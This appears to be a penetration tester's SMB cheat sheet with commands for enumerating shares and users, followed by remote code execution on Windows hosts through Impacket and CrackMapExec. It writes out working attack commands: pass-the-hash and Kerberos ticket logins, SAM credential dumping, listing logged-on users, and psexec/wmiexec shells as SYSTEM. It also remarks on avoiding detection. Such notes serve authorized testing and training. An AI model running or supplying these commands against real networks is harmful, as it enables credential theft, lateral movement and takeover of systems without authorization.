 ## delete


# Interacting
## Show avaiable shares
```bash
# crackmapexec
$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
$ crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'

# smbmap
$ smbmap -H 10.129.14.128
$ smbmap -H 10.129.14.128 -r notes
$ smbmap -H 10.129.14.128 --download "notes\note.txt"
$ smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"

# smbclient
$ smbclient -N -L //10.129.14.128
- `-N` suppresses the password prompt
- `-L` want to retrieve a list of available shares on the remote host
```


## Connecting
```bash
$ smbclient -U bob //10.129.42.253/users
$ smbclient -U user \\\\10.129.42.197\\SHARENAME

# PTH
$ smbclient.py -hashes":<hash>" <user>@<ip>
```

## Show Files
```bash
smb: \> ls \<SHARE>\

smb: \> recurse ON
smb: \> prompt OFF
smb: \> ls
```

## Download Files
```bash
smb: \> get prep-prod.txt 
```

# Footprinting
## Nmap
```bash
$ sudo nmap 10.129.14.128 -sV -sC -p139,445
$ nmap --script smb-os-discovery.nse -p445 10.10.10.40
```

## Remote Procedure Call (RPC)
```bash
$ rpcclient <IP> -U ""
$ rpcclient -U'%' <IP>
$ rpcclient -U "" -N 172.16.5.5
```

| Query              | Description                                                      |
|--------------------|------------------------------------------------------------------|
| srvinfo            | Server information.                                              |
| enumdomains        | Enumerate all domains that are deployed in the network.          |
| querydominfo       | Provides domain, server, and user information of deployed domains.|
| netshareenumall    | Enumerates all available shares.                                 |
| netsharegetinfo <share> | Provides information about a specific share.                   |
| enumdomusers       | Enumerates all domain users.                                     |
| queryuser <RID>    | Provides information about a specific user.                      |


## Impacket - Samrdump.py (Brute Forcing User RIDs)
```bash
$ samrdump.py 10.129.14.128
```

## Enum4Linux-ng
```bash
$ git clone https://github.com/cddmp/enum4linux-ng.git
$ cd enum4linux-ng
$ pip3 install -r requirements.txt
$ ./enum4linux-ng.py <IP> -A -C
```

# Remote Code Execution
- Impacket PsExec - Python PsExec like functionality example using RemComSvc.
- Impacket SMBExec - A similar approach to PsExec without using RemComSvc. The technique is described here. This implementation goes one step further, instantiating a local SMB server to receive the output of the commands. This is useful when the target machine does NOT have a writeable share available.
- Impacket atexec - This example executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
- CrackMapExec - includes an implementation of smbexec and atexec.
- Metasploit PsExec - Ruby PsExec implementation.


```
$ impacket-psexec -h
$ impacket-psexec administrator:'Password123!'@10.10.110.17
```

```
$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
$ crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

## interactive-shell
**Psexec.py [https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py]**
One of the most useful tools in the Impacket suite is psexec.py. Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the ADMIN$ share on the target host. It then registers the service via RPC and the Windows Service Control Manager. Once established, communication happens over a named pipe, providing an interactive remote shell as SYSTEM on the victim host.

To connect to a host with psexec.py, we need credentials for a user with local administrator privileges.

```bash
# ClearText
$ impacket-psexec <domain>/<user>:<password>@<ip>
$ psexec.py <domain>/<user>:<password>@<ip>

# PTH
$ impacket-psexec -hashes ":<hash>"<user>@<ip>`
$ psexec.py -hashes ":<hash>"<user>@<ip>

# PTT - Same as PassTheHash but use -k and -no-pass 
$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
$ psexec.py -dc-ip IP -target-ip $IP -no-pass -k <DOMAIN>/<USER>@<target machine name>.<DOMAIN> -> goat
$ psexec.py -dc-ip <IP> -no-pass -k <domain>/<user>@<ip>
```

### pseudo-shell (file write and read)
#### Impacket Toolkit
**Atexec.py [https://github.com/fortra/impacket/blob/master/examples/atexec.py]**
```bash
# ClearText
$ atexec.py <domain>/<user>:<password>@<ip> "command" 

# PTH
$ atexec.py -hashes ":<hash>" <domain>/<user>@<ip> "command"

# PTT
$ atexec.py <domain>/<user>@<ip> "command" -k -no-pass
```

**Smbexec.py [https://github.com/fortra/impacket/blob/master/examples/smbexec.py]**
```bash
# ClearText
$ smbexec.py <domain>/<user>:<password>@<ip>

# PTH
$ smbexec.py -hashes ":<hash>" <domain>/<user>@<ip> 

# PTT
$ smbexec.py <domain>/<user>@<ip> -k -no-pass
```

**Wmiexec.py [https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py]**
Wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation. It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user we connected with (this can be less obvious to someone hunting for an intrusion than seeing SYSTEM executing many commands). This is a more stealthy approach to execution on hosts than other tools, but would still likely be caught by most modern anti-virus and EDR systems. We will use the same account as with psexec.py to access the host.
```bash
# ClearText
$ wmiexec.py <domain>/<user>:<password>@<ip>

# PTH
$ wmiexec.py -hashes":<hash>" <user>@<ip> 
```

**Dcomexec.py [https://github.com/fortra/impacket/blob/master/examples/dcomexec.py]**
```bash
# ClearText
$ dcomexec.py <domain>/<user>:<password>@<ip>

# PTH
$ dcomexec.py -hashes ":<hash>"<user>@<ip> 
```

**CrackMapExec**
```bash
# ClearText
$ crackmapexec smb <ip> -u <user> -p <pssword> -x <command> --exec-method smbexec
$ crackmapexec smb <ip_range> -u <user> -p < password> -d <domain>
$ crackmapexec smb <ip_range> -u <user> -p < password> -local-auth

# PTH
$ crackmapexec smb <ip_range> -u <user> -d <domain> -H ':<hash>' 
$ crackmapexec smb <ip_range> -u <user> -H ':<hash>' --local-auth
```

